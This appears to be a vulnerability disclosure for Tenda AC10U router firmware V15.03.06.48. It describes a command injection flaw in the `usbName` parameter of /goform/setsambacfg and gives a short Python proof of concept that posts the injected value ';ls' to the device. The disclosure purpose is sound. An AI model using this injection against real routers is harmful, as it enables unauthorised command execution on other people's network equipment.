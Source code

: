 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3170.html

## Affected version

AC10U v1.0 Firmware  V15.03.06.48

## Vulnerability details

The Tenda AC10U v1.0 Firmware  V15.03.06.48 firmware, we discovered a command injection vulnerablility in the `usbName` parameter and the `usbname`varable is directly passed to a `doSystemCmd` function, causing an arbitrary command execution. The user-provided `usbName` can trigger this security vulnerability.

![image-20240316184111386](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316184111386.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/setsambacfg"
payload = ";ls"

data = {"action":"del","usbName": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240316180711436](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316180711436.png)
